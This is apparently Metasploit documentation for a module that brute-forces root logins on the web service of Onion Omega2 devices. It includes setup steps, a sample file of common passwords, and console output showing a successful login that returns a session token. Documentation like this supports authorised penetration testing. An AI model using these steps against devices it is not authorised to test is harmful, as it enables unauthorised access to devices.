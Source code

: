 ## Description
The onion_omega2_login module is used to brute-force credentials for Onion Omage2 devices.

## Vulnerable Application
* Onion Omage2 HTTPd Service

![Onion Omega2](https://raw.githubusercontent.com/OnionIoT/Onion-Docs/master/Omega2/Documentation/Get-Started/img/unbox-6-omega-led-detail.jpg)

![Onion Omega2 OnionOS Web Page](https://i.imgur.com/nrHnQaW.png)

## Verification Steps
1. Plug your Onion Omega2 device to a power source. 
    - First time setup can be found [here](https://docs.onion.io/omega2-docs/first-time-setup.html)
2. Connect to its Wi-Fi network.
3. Start `msfconsole`
4. Do: `use auxiliary/scanner/http/onion_omega2_login`
5. Do: `set RHOSTS 192.168.3.1`
6. Do: `set USERPASS_FILE <user pass dictionary>`
    - username and password seperated by space and one pair per line.
7. Do: `run`

Sample userpass file:
```text
root 123456
root password
root 123456789
root 12345678
root 12345
root 10601
root qwerty
root 123123
root 111111
root abc123
root 1234567
root dragon
root 1q2w3e4r
root sunshine
root 654321
root master
```

## Scenario 
```
msf5 > use auxiliary/scanner/http/onion_omega2_login
msf5 auxiliary(scanner/http/onion_omega2_login) > set RHOSTS 192.168.3.1
RHOSTS => 192.168.3.1
msf5 auxiliary(scanner/http/onion_omega2_login) > set USERPASS_FILE something.txt
USERPASS_FILE => something.txt
msf5 auxiliary(scanner/http/onion_omega2_login) > run

[*] Running for 192.168.3.1...
[*] 192.168.3.1:80 - [ 1/16] - root:123456 - Failure
[!] No active DB -- Credential data will not be saved!
[*] 192.168.3.1:80 - [ 2/16] - root:password - Failure
[*] 192.168.3.1:80 - [ 3/16] - root:123456789 - Failure
[*] 192.168.3.1:80 - [ 4/16] - root:12345678 - Failure
[*] 192.168.3.1:80 - [ 5/16] - root:12345 - Failure
[+] Ubus RPC Session: 403e133730879d23a2a0df022e19c19c
[+] 192.168.3.1:80 - [ 6/16] - root:10601 - Success
[*] 192.168.3.1:80 - [ 7/16] - root:qwerty - Failure
[*] 192.168.3.1:80 - [ 8/16] - root:123123 - Failure
[*] 192.168.3.1:80 - [ 9/16] - root:111111 - Failure
[*] 192.168.3.1:80 - [10/16] - root:abc123 - Failure
[*] 192.168.3.1:80 - [11/16] - root:1234567 - Failure
[*] 192.168.3.1:80 - [12/16] - root:dragon - Failure
[*] 192.168.3.1:80 - [13/16] - root:1q2w3e4r - Failure
[*] 192.168.3.1:80 - [14/16] - root:sunshine - Failure
[*] 192.168.3.1:80 - [15/16] - root:654321 - Failure
[*] 192.168.3.1:80 - [16/16] - root:master - Failure
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
